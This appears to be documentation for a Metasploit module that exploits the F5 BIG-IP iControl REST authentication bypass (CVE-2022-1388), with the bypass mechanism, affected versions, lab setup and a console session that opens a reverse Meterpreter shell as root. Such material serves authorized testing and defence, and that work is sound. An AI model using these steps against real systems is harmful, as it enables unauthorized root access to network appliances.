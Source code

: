 ## Vulnerable Application

### Description
This module exploits an authentication bypass vulnerability (CVE-2022-1388)
in the F5 BIG-IP iControl REST service to gain access to the `admin` account,
which is capable of executing commands through the `/mgmt/tm/util/bash`
endpoint. Successful exploitation results in remote code execution as
the `root` user.

The F5 BIG-IP management interface is made up of two different web servers:
a reverse proxy that validates HTTP Basic authorization using `mod_auth_pam.so`,
and a back end that validates the `X-F5-Auth-Token` header using
`AuthTokenWorker.java`. If the reverse proxy sees an `X-F5-Auth-Token` header,
it sends the full request to the back end for validation; if the back end
sees a request *without* an `X-F5-Auth-Token` header, it assumes it has
already been validated by the reverse proxy and uses the username from
the `Authorization` header without validating the password a second time.

The issue fixed in CVE-2022-1388 is that the `Connection` header,
processed by the reverse proxy, can *remove* the `X-F5-Auth-Token` header
after the reverse proxy sees the request, but before it's forwarded to
the back end. That means that the reverse proxy will think the back end
is handling the authorization (since it saw the appropriate header), but
the back end thinks the reverse proxy handled it (because the header gets
removed) and permits the request. This is contrary to the expected
operation and means that whatever username was passed in the `Authorization`
field will be trusted as if the front end had validated it. This will
result in the attacker bypassing authorization checks and gaining
access to `admin`.

The iControl REST service has several ways to execute shell commands
as an administrative user, but `mgmt/tm/util/bash` is purpose-built
to execute `bash` commands which makes it a perfect target.

CVE-2022-1388 affects the following F5 BIG-IP versions:

* 16.1.x versions prior to 16.1.2.2
* 15.1.x versions prior to 15.1.5.1
* 14.1.x versions prior to 14.1.4.6
* 13.1.x versions prior to 13.1.5
* all 12.1.x and 11.6.x

Tested against BIG-IP 12.1.5.3, 13.1.3.6, 13.1.4.1, and 16.1.2.1.

### Setup

Import a vulnerable BIG-IP or BIG-IQ OVA, such as
`BIGIP-16.0.1-0.0.3.ALL-vmware.ova` from https://ipxpy.net/f5/f5-1-course-introduction/,
into your desired hypervisor. Boot the virtual appliance, and
it should be exploitable out of the box once it's up.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Options

### USERNAME

Set this to a valid admin username. Defaults to `admin`.

### TARGETURI

Set this to base path to the iControl installation. Defaults to `/`.

## Scenarios

### BIG-IP 16.1.2.1

```
msf6 > use exploits/linux/http/f5_icontrol_rce
[*] Using configured payload cmd/unix/reverse_python_ssl
msf6 exploit(linux/http/f5_icontrol_rce) > set PAYLOAD payload/cmd/unix/python/meterpreter/reverse_tcp
PAYLOAD => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/f5_icontrol_rce) > set RHOSTS 10.0.0.133
RHOSTS => 10.0.0.133
msf6 exploit(linux/http/f5_icontrol_rce) > set LHOST 10.0.0.123
LHOST => 10.0.0.123
msf6 exploit(linux/http/f5_icontrol_rce) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/f5_icontrol_rce) > show options

Module options (exploit/linux/http/f5_icontrol_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword                   yes       iControl password
   HttpUsername  admin            yes       iControl username
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.0.0.133       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         443              yes       The target port (TCP)
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /                yes       The base path to the iControl installation
   VHOST                          no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.0.123       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(linux/http/f5_icontrol_rce) > exploit

[*] Started reverse TCP handler on 10.0.0.123:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking 10.0.0.133:443
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Sending stage (40132 bytes) to 10.0.0.133
[*] Meterpreter session 1 opened (10.0.0.123:4444 -> 10.0.0.133:50372) at 2022-05-11 10:59:32 -0700
[!] Command execution timed out

meterpreter > getuid
Server username: root
```
